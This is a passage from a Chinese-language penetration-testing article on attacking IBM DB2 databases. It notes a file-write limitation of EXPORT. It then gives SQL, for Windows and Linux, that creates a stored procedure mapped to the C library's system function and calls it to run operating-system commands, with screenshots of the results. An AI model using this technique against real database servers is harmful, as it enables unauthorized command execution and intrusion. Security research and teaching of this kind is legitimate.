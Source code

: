 远程调用结果：

![pic43](http://drops.javaweb.org/uploads/images/78590a3177d33c124b603bde27595e0f511100c5.jpg)

![pic44](http://drops.javaweb.org/uploads/images/107c9d928deaeb23ce28056793f7b7d4cdd31689.jpg)

![pic45](http://drops.javaweb.org/uploads/images/f7ce00e187abfda0c831f7674ee304ea6b459325.jpg)

注：  
通过EXPORT向文件写入自定义字符串内容时SELECT的表中必须至少有一条记录否则写入内容为空

0x05 利用DB2执行操作系统命令
==================

* * *

可利用DB2存储过程执行操作系统命令。远程连接数据库的用户需要具有创建存储过程的权限，连接数据库后创建一个可以执行操作系统命令的存储过程并调用。

创建此种存储过程并调用的语法如下：

Windows：

```
CREATE PROCEDURE db2_cmd_exec (IN cmd varchar(200))
EXTERNAL NAME 'c:\windows\system32\msvcrt!system' 
LANGUAGE C 
DETERMINISTIC 
PARAMETER STYLE DB2SQL

CALL db2_cmd_exec ('whoami /all > C:\whoami.log')

```

Linux：

```
CREATE PROCEDURE db2_cmd_exec (IN cmd varchar(200))
EXTERNAL NAME '/usr/lib/libstdc++.so.6!system' 
LANGUAGE C 
DETERMINISTIC 
PARAMETER STYLE DB2SQL

call db2_cmd_exec ('whoami > /tmp/whoami.log')

```

运行结果：

![pic46](http://drops.javaweb.org/uploads/images/afbd4754cf2fbe3fdab12b28835a8ebac44efc90.jpg)

![pic47](http://drops.javaweb.org/uploads/images/4189e81c077b3cce381ffd87a1dc35888bbe2b90.jpg)

![pic48](http://drops.javaweb.org/uploads/images/5aff72f44cbfb89c07b47652b9fd004693560655.jpg)

![pic49](http://drops.javaweb.org/uploads/images/380a09c48bc632a2078bc3a48898788589da1d0d.jpg)
